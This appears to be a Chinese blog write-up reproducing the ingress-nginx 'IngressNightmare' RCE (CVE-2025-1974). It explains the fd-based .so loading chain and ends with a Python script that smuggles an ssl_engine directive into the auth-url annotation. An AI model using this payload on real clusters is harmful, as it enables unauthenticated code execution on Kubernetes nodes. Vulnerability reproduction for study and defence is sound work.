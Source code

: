 # 漏洞分析

这个漏洞的本质是加载恶意库，一共有以下几个步骤

1. nginx存在一个特性，在处理请求时，如果http请求体大于某个阈值（默认为 8KB），就会将请求体body保存到临时文件中，尽管nginx会立即删除该文件，但nginx持有指向该文件的文件描述符fd，可以通过形如`/proc/xx/fd/xxx` 的形式访问该文件，只要保持请求连接，就可以让fd描述符持续打开，供后续使用
2. 集群中任意pod可以无需任何身份验证向ingress-nginx的准入控制器发送一个恶意的AdmissionReview请求，而Ingress-Nginx收到该请求后会构造一个nginx配置文件，使用nginx -t命令执行，这一点打开代码后一眼就能看到
3. 因为nginx配置中的ssl_engine可以加载动态链接库文件，可以根据不同的配置比如auth-url、auth-tls-match-cn注入我们所需的ssl_engine，内容是fd描述符指向的so文件，加载恶意的so达到RCE的目的

不同配置注入的分析可以参考：[奇安信攻防社区-IngressNightmare CVE-2025-1974 RCE漏洞复现（超详细） (butian.net)](https://forum.butian.net/article/686)

# 写在最后

这个洞出来很久了，因为怠慢导致4月初准备复现的漏洞，现在7月才复现，中间遇到了很多坑：

1. https://github.com/yoshino-s/CVE-2025-1974这个脚本，最开始怎么都复现不了，一方面是根据文章的编译方式，添加了-lcrypto参数，导致加载so文件的时候因缺少libcrypto.so.10库而报错，另一方面是fd遍历范围如果不当的时候，会停住导致一直收不到shell
2. 排查原因的时候，因为没有root身份，导致很多fd文件没有权限翻看

推荐的复现方式还是，单独起一个长连接的脚本使fd文件打开，另外再去被攻击节点找到对应的fd描述符，直接使用

```
import json
import requests

admission_url = 'https://ingress-nginx-controller-admission.ingress-nginx.svc:443/networking/v1/ingresses'

with open("req.json", "r") as f:
    data = json.load(f)

def load():
    fdpath = '/proc/32/fd/26'
    data["request"]["object"]["metadata"]["annotations"][
            "nginx.ingress.kubernetes.io/auth-url"] = "http://example.com/#;}}}\n\nssl_engine %s;\n\n" % (fdpath,)
    try:
        res = requests.post(admission_url, json=data, verify=False)
        print("[+]testing" + " " + fdpath)
        print(res.text)
    except Exception as e:
        print("[!]" + " error parsing response")
        print(e)

load()
```




